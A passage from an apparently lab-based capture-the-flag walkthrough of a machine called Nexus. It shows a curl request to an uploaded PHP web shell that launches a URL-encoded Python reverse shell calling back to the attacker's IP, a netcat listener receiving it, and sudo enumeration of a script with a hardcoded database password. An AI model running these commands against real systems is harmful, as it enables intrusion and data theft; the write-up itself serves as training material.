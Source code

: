 ```plaintext
└─$ curl 'http://10.10.165.19/shell.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.17.114.124%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)%27'

...

└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.17.114.124] from (UNKNOWN) [10.10.165.19] 43788
www-data@Nexus:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),118(mysql)
```

and we have a shell as `www-data`

### Pivoting

let's run `sudo -l` :

```plaintext
www-data@Nexus:/$ sudo -l
Matching Defaults entries for www-data on Nexus:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_LIBRARY_PATH

User www-data may run the following commands on Nexus:
    (achour) NOPASSWD: /opt/update-shipment-details.sh
```

we can run `/opt/update-shipment-details.sh` as the user `achour`, let's inspect the content of that file :

```bash
#!/bin/bash

PASS=$(cat /home/achour/.editor-pass)

read -s -p "Enter your editor password : " INPUT_PASS
/usr/bin/echo

if [[ $PASS == $INPUT_PASS ]]; then
    echo "Password correct. Access granted."

    mysql -u dbuser -h localhost -p'Y0uC4n7Cr4ckTh1sDBP4ss!' -e 'USE app; SELECT address, phone FROM orders;' --silent | cut -d '|' -f 1 > /home/achour/shipment-details.txt

    vim /home/achour/shipment-details.txt
else
    echo "Incorrect password. Access denied."
fi
```

this script first saves a password that's in `/home/achour/.editor-pass` to a variable named `PASS`, then it prompt us for a password, if our given password matches with the `PASS` variable, it updates the `/home/achour/shipment-details.txt` file with latest shipment details from that web store database, then give us a `VIM` session to be able to edit the file.
